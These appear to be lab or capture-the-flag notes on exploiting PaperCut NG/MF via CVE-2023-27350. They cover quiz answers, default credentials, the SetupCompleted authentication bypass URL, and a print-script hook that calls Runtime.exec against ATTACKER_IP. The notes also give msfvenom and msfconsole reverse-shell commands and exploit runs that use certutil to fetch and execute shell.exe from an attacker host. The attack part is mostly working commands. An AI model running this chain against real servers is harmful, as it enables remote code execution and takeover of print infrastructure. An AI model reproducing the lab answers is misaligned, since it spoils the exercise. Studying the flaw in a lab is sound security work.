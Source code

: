 ## Understanding PaperCut and CVE-2023-27350


* **PaperCut NG -** their print management and control solution
* **PaperCut MF -** similar to NG but with extended copy and scan functionalities.


* **Q:** What is the name for the logic vulnerability that occurs when session and authentication functions are used for multiple purposes?
  * Session Puzzling
* **Q:** What is the name of the Java class containing the authentication bypass vulnerability?
  * SetupCompleted


## Bypassing Authentication

* **Apache** Tomcat - Authenticate with `tomcat:s3cr3t`
* **Jenkins** - Authenticate with `jenkins:jenkins`
* Almost any WiFi router - Authenticate with `admin:admin`

## WTF

http://10.10.113.105:9191/app?service=page/SetupCompleted

http://10.10.113.105:9191/app?service=page/Dashboard


```
function printJobHook(inputs, actions) {
	// your script here
}
java.lang.Runtime.getRuntime().exec('ping.exe ATTACKER_IP');
```

```
tcpdump -i ens5 icmp
```

```
git clone https://github.com/horizon3ai/CVE-2023-27350
```

```
msfvenom -p windows/shell/reverse_tcp -f exe LHOST=ATTACKER_IP LPORT=4444 -o shell.exe
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/shell/reverse_tcp; set LHOST ATTACKER_IP; set LPORT 4444; exploit"
python3 CVE-2023-27350.py -u http://10.10.113.105:9191 -c "certutil.exe -urlcache -f http://ATTACKER_IP:8080/shell.exe shell.exe"

python3 CVE-2023-27350.py -u http://10.10.113.105:9191 -c "cmd.exe /c shell.exe"
```

